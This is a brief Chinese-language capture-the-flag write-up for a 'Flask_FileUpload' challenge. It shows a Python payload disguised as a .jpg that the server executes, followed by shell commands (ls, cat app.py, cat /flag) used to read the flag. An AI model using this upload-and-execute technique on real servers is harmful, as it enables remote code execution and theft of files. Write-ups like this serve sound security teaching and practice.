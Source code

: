 # Flask_FileUpload

## writeup

直接上传内容为下的jpg文件，服务器会把jpg文件当作py文件来执行，然后可得到返回结果。
```python
# 1.jpg
import os
os.system('xxx')
```

1. 执行`ls`，文件有app.py。

2. `cat app.py`查看app.py中的代码内容，并发现flag写在了根目录下。

3. `cat /flag`查看flag。